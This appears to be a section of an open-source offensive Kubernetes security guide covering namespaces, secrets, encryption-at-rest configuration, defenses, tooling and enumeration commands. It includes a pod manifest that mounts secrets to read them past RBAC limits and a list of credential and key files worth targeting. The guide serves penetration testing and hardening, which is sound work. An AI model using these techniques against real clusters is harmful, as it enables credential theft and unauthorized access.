- Resource Isolation: Resources such as CPU and memory can be limited by namespace. This prevents one team utilizing all the the resources in a cluster.
- Access Control: RBAC can be used to grant "users" access to only specific namespaces.
- Enforcing Network Policies: While not really a namespace specific feature, pods can by default communicate across namespaces, but network policies can be enforced at a namespace level to prevent this.
- Reduce Naming Confusion: Resources cannot have the same name within a namespace, but they can have the same name as a resource in another namespace.
By default, kubernetes has 4 different namespaces, including default, kube-node-lease, kube-public, and kube-system. You can query namespaces with kubectl get namespace
Namespaces are a resource boundary, they should not be considered a strong security boundary. Namespaces allow you to scope RBAC.
Secrets
A Secret is an object that stores sensitive information such as a password, token, key, etc. Secrets are deployed to a cluster just like any other object in kubernetes by creating a manifest and declaring the kind as a Secret. By default, secrets are NOT encrypted (although this can be configured) and are stored as base64 strings.
Secrets designed to be a better way to pass sensitive information to applications. This means that sensitive information does not need to be hardcoded into an application, and instead the sensitive information can be stored by kubernetes which makes things a bit more secure and makes it easier to do tasks such as rotating credentials.
apiVersion: v1
kind: Secret
metadata:
name: very-very-secret
data:
very-secret-file: YWRtaW4gaGVzIGRvaW5nIGl0IHNpZGV3YXlzCg==

Secret types
There are many different "types" of secrets but the default and most common is Opaque.
- Opaque: Can hold almost any type of general data.
- Service Account: Stores.... service account tokens.
Pod Considerations
An attacker who is able to create a pod in a namespace can mount any secret in that namespace into the Pod and read it in plain text even if RBAC does not allow for reading of secrets using a manifest simliar to the one below:
apiVersion: v1
kind: Pod
metadata:
name: very-very-secret
spec:
volumes:
- name: secret-volume
secret:
secretName: very-very-secret
containers:
- name: UWUntu-with-secret
image: ubuntu
volumeMounts:
- name: secret-volume
readOnly: true
# Where the secret is mounted to inside the Pod
mountPath: "/etc/secret-volume"
For more information See -> Container Service Account.
Encryption at rest configuration
It is possible to find the raw encryption key used to encrypt secrets within the Kind: EncrpytionConfiguration manifest. Ideally keys should be held outside of your kubernetes cluster in a key management system. An attacker who is able to grab the keys can simply decrypt the information.
# Pulled from: https://kubernetes.io/docs/tasks/administer-cluster/encrypt-data/
# CAUTION: this is an example configuration.
# Do not use this for your own cluster!
#
apiVersion: apiserver.config.k8s.io/v1
kind: EncryptionConfiguration
resources:
- resources:
- secrets
- configmaps
- pandas.awesome.bears.example # a custom resource API
providers:
# This configuration does not provide data confidentiality. The first
# configured provider is specifying the "identity" mechanism, which
# stores resources as plain text.
#
- identity: {} # plain text, in other words NO encryption
- aesgcm:
keys:
- name: key1
secret: c2VjcmV0IGlzIHNlY3VyZQ==
- name: key2
secret: dGhpcyBpcyBwYXNzd29yZA==
- aescbc:
keys:
- name: key1
secret: c2VjcmV0IGlzIHNlY3VyZQ==
- name: key2
secret: dGhpcyBpcyBwYXNzd29yZA==
- secretbox:
keys:
- name: key1
secret: YWJjZGVmZ2hpamtsbW5vcHFyc3R1dnd4eXoxMjM0NTY=
- resources:
- events
providers:
- identity: {} # do not encrypt Events even though *.* is specified below
- resources:
- '*.apps' # wildcard match requires Kubernetes 1.27 or later
providers:
- aescbc:
keys:
- name: key2
secret: c2VjcmV0IGlzIHNlY3VyZSwgb3IgaXMgaXQ/Cg==
- resources:
- '*.*' # wildcard match requires Kubernetes 1.27 or later
providers:
- aescbc:
keys:
- name: key3
secret: c2VjcmV0IGlzIHNlY3VyZSwgSSB0aGluaw==
Defending
From the kubernetes documentation:
- Enable Encryption at Rest for Secrets.
- Enable or configure RBAC rules with least-privilege access to Secrets.
- Restrict Secret access to specific containers.
- Consider using external Secret store providers.
Interesting Files
- kubelet.conf (bootstrap-kubelet.conf during TLS bootstrap)
- controller-manager.conf
- scheduler.conf
- admin.conf for the cluster admin and kubeadm itself
- super-admin.conf for the cluster super-admin that can bypass RBAC
- ca.crt: The Kubernetes root-CA certificate
- ca.key: The Kubernetes root-CA private key
- sa.pub: The public key used by the controller manager when singing a Service Account
- sa.key The private key used by the controller manger when sigining a Service account
- config.json: The docker config file. Typically stored at
/home/user/.docker/config.jsonCan contain credentials for pushing/pulling images to registries if configured withdocker login
Contributing
The entire offensive security landscape relives HEAVILY on the time and expertise of other offensive security professionals through the tools and techniques we use everyday.
This project is only as useful as we (the community) make it. Things will change, attacks will evolve, and new attacks will be discovered. This project aims to help keep up with the changing attack surface, but I cannot do it alone. This entire project is open source, you can see all the source files here. Should you have something to contribute, please don't hesitate to open a pull request to the GitHub repository.
I'm 100% sure that I have gotten some things wrong in this project. My hope is that by putting this together, we can get the ball rolling on creating more comprehensive documentation for attacking a Kubernetes cluster. The more we're able to document these attacks, the more easily we will be able to communicate the risk of an insecure cluster.
Are you new to the security industry but you've found something about this project lacking? Contributing to open source projects is a fantastic way to demonstrate your competence for future employers to see. Contributions that keep things up to date is always appreciated!
4 layers of Kubernetes security
Kubernetes is a multifaceted system and the complexity of a cluster is greater than the sum of it's relatively simple core components. My biggest mistake when first trying to "hack Kubernetes" was looking at the a cluster holistically instead of atomistically. It helps to focus on one core component of a Kubernetes cluster at a time. There are four main layers of Kubernetes security (sometimes referred to as the 4C's of cloud native security).
- Code Security: Is the code deployed into a pod secure? Is it vulnerable to SQL injection, command injection, or any other type of vulnerabilities in the OWASP Top 10?
- Container Security: Is the container you're launching hosting your application trusted? Where did you get the image from? Is the container running as root?
- Cluster Security: Is your cluster configured with the principles of least privilege in mind? Is RBAC in use? Are secrets being stored appropriately?
- Cloud Security: Is the infrastructure hosting the cluster secure? Have the nodes been patched? Are they running SSH with a default password? Is access to the API server restricted?
Note: I much prefer the term infrastructure security instead of cloud security since you can run a Kubernetes cluster in a non-cloud environment but I will stick with cloud security to avoid confusion.
Offensive Kubernetes Tooling
- Trivy: An extremely comprehensive tool that allows for finding vulnerabilities at multiple different "layers" of Kubernetes security depending on how it's run.
- Peirates: A swiss army knife of Kubernetes pentesting.
- Kdigger: A context discovery tool for offensive security assessments.
Helpful Commands
- Install kubectl oneliner:
curl -LO https://dl.k8s.io/release/v1.29.2/bin/linux/amd64/kubectl && chmod +x kubectl && mv ./kubectl /usr/bin/ ; kubectl version
Enumeration
kubectl cluster-info can be used to display various information about the cluster
You can get a VERY verbose dump of this information with kubectl cluster-info dump